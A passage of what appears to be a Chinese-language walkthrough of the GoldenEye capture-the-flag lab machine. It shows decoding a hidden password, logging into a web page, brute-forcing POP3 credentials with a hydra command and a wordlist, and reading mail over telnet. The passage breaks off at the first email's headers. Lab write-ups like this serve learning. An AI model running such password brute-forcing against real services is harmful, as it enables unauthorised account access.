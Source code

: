 根据提示，猜测用户名是 boris，并且默认密码没有更改。对 `&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;` 进行 HTML 解码，对应值为：InvincibleHack3r，使用此凭证 boris:InvincibleHack3r 登陆 /sev-home/。

得到如下内容：

```
GoldenEye is a Top Secret Soviet oribtal weapons project. Since you have access you definitely hold a Top Secret clearance and qualify to be a certified GoldenEye Network Operator (GNO)

Please email a qualified GNO supervisor to receive the online GoldenEye Operators Training to become an Administrator of the GoldenEye system

Remember, since security by obscurity is very effective, we have configured our pop3 service to run on a very high non-default port
```

继续查看源代码，发现如下提示：

```
Qualified GoldenEye Network Operator Supervisors:
Natalya
Boris
```

获得了两个管理员用户名：natalya、boris。

尝试使用 boris:InvincibleHack3r 凭证登陆 pop3 55007 查看邮件：

```
telnet 192.168.10.150 55007
USER boris
PASS InvincibleHack3r
-ERR [AUTH] Authentication failed.
```

认证不对，看样子是密码不对，暂时找不到其他密码，只能先试试暴力破解。

尝试用 hydra 对 natalya、boris 两个用户进行爆破，最开始使用 Seclist 中的 rockyou.txt 没有爆破出来，然后尝试下面 kali 自带的字典：

```
hydra -t 20 -l boris -P /usr/share/wordlists/fasttrack.txt pop3://192.168.10.150:55007/

找到了用户对应的密码：
[55007][pop3] host: 192.168.10.150   login: boris   password: secret1!
```

再次尝试登陆 boris:secret1!，看到有 3 封邮件，查看其内容：

```
Trying 192.168.10.150...
Connected to 192.168.10.150.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS secret1!
+OK Logged in.
STAT
+OK 3 1838
LIST
+OK 3 messages:
1 544
2 373
3 921
.

RETR 1
+OK 544 octets
Return-Path: <root@127.0.0.1.goldeneye>
X-Original-To: boris
Delivered-To: boris@ubuntu
```